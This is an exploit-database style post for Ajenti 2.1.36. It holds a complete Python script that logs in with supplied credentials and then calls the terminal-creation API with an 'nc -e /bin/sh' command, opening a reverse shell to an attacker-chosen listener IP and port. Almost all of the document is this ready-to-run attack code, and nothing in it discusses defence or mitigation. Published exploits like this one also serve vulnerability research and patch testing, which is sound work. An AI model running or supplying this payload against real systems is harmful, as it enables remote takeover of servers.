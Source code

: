 ```yaml
---
layout: post
title: Ajenti 2.1.36 - Remote Code Execution (Authenticated)
date: 2020-10-22 21:00:00 +0000
author: Ahmet Ümit BAYRAM
category: exploit
tags: exploit,rce,command,execution

---
```

\# Exploit Title: Ajenti 2.1.36 - Remote Code Execution (Authenticated)
\# Date: 2020-10-22
\# Exploit Author: Ahmet Ümit BAYRAM
\# Vendor: https://www.ajenti.org
\# Software Link: https://github.com/ajenti/ajenti
\# Version: 2.1.36
\# Tested on: Kali Linux & Ubuntu 18.04.5
\# CVE: N/A


\--------- Exploit ---------

    #!/usr/bin/python3
    
    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    import json
    
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
    
    if len(sys.argv) < 6:
        print("Usage: ./exploit.py http(s)://url username password listenerIP listenerPort")
        exit()
    
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]
    
    req = requests.session()
    login_creds = {
        "username":username,
        "password":password,
        "mode":"normal"}
         
    
    
    print("[+] Sendin login request...")
    login = req.post(url+"/api/core/auth", json = login_creds)
    
    
    if username in login.text:
    
        page = url + "/api/terminal/create"
    
        payload = {
    
                'command':'nc -e /bin/sh ' + ip + ' ' + port ,
                'autoclose':True
    
    
              }
        payload = json.dumps(payload)
        print("[+] Sending payload...")
       
        send_payload = req.post(page, payload)
       
        print("[+] Check your listener !...")
    
    else:
        print("[-] Wrong credentials or may the system patched.")
        exit()